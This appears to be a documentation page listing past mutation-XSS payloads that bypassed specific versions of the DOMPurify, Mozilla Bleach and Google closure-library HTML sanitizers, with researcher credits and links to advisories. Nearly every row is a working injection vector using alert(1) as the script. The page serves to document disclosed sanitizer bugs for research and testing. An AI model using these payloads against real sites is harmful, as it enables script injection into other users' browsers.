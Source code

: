 ```yaml
---
layout: page
title: Payload examples
---
```

This page contains some examples of payloads used to bypass sanitizers in the past. There are many other examples but to avoid redundancy we will add only ones that include new vectors or techniques.

## DomPurify

| Version | Payload                                                                                                                            | Credit                                             | Additional links                                                                                                                        |
|---------|----------------------------------------------------------------------------------------------------------------------------------  |----------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------|
| 2.0.0   | `<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">`                                                                    | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/dompurify-bypass-using-mxss/> |
| 2.0.17  | `<form><math><mtext><form><mglyph><style></math><img src onerror=alert(1)></style></mglyph></form></mtext></math></form>`          | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/> |
| 2.0.17  | `<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">`     | Gareth Heyes [@garethheyes](https://twitter.com/garethheyes) | <https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss> |
| 2.0.17  | `<math><mtext><table><mglyph><style><math><table id=”</table>”><img src onerror=alert(1)”>`                                        | [@sqrtrev](https://twitter.com/sqrtrev) [@0xParrot](https://twitter.com/sqrtrev) @web_payload team [@GuesserSuper](https://twitter.com/GuesserSuper) | <https://twitter.com/0xsapra/status/1307929537749999616?ref_src=twsrc%5Etfw> |
| 2.2.0   | `<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">`                        | Daniel Santos [@bananabr](https://twitter.com/bananabr) | <https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f>  |
| 2.2.3   | `<svg><xss><desc><noscript>&lt;/noscript>&lt;/desc>&lt;p>&lt;/p>&lt;style>&lt;a title="&lt;/style>&lt;img src onerror=alert(1)>">` | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://twitter.com/SecurityMB/status/1341290687963262978> |
| 3.0.8   | `<svg><annotation-xml><foreignobject><style><!--</style><p id="--><img src='x' onerror='alert(1)'>">`                              | Kévin - Mizu [@kevin_mizu](https://twitter.com/kevin_mizu) | <https://mizu.re/post/playing-with-dompurify-ce-handling> |

## Mozilla Bleach

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| 3.1.0   | `<noscript><style></noscript><img src=x onerror=alert(1)>`                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.1.1   | `<svg><style><img src=x onerror=alert(1)>`                                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.2.3   | `<math><p></p><style><!--</style><img src/onerror=alert(1)>--></style></math>` | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://github.com/mozilla/bleach/security/advisories/GHSA-vv2x-vrpj-qqpq> |

## Google closure-library

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| v20190215   | `<noscript><p title="</noscript><img src=x onerror=alert(1)>">` | Masato Kinugawa [@kinugawamasato](https://twitter.com/kinugawamasato) | <https://github.com/google/closure-library/commit/c79ab48e8e962fee57e68739c00e16b9934c0ffa> <https://www.youtube.com/watch?v=lG7U3fuNw3A> |